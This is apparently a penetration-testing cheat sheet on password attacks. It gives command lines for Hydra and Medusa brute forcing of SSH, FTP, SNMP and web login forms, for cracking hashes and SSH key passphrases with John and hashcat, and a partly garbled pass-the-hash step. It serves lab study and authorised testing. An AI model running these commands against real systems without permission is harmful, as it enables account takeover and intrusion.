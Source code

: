 # Password attacks

#### `usr/share/wordlists`

### Medusa

Brute force basic http authorizations.

```
medusa -h 10.11.1.219 -u admin -P password.txt -M http -m DIR:/admin -T 10
```

### Hydra

Can be used to brute force numerous services.

```
hydra -P password.txt -v 10.11.1.210 snmp
hydra -l admin -P password.txt -v 122.168.31.219 ftp
hydra -l root -P password.txt 10.11.1.219 ssh
hydra -L users.txt -P password.txt 10.10.219.253 www-get /admin
```

#### \*\* Brute force http-post login forms

```
Format: hydra -L <path to user wordlist> -P <path to password wordlist> <IP Address> http-post-form “<Login Page>:<Request Body>:<Error Message>"

Example: hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.10.43 http-post-form "/department/login.php:username=admin&password=^PASS^:Invalid Password!"
```

### John

```
john <hash.txt> --wordlist=/usr/share/wordlists/rockyou.txt
```

#### SSH keys

To crack SSH key passwords convert the key to a hash, then crack using John.

```
python ssh2john.py id_rsa > id_rsa.hash
```

### Hashcat

**Check for mode on wiki page** [https://hashcat.net/wiki/doku.php?id=example\_hashes](https://hashcat.net/wiki/doku.php?id=example\_hashes)

```
hashcat -m (mode) -a 0 hash.txt Pass.txt
```

### Passing the hash (Windows)

Create environment variable SMBHASH, containing hash we want to pass

`export SMBHASH=hashvalue`

`Use pth-winexe to authenticate: pth-winexe -U administrator% //10.11.0.1.76.cmd`
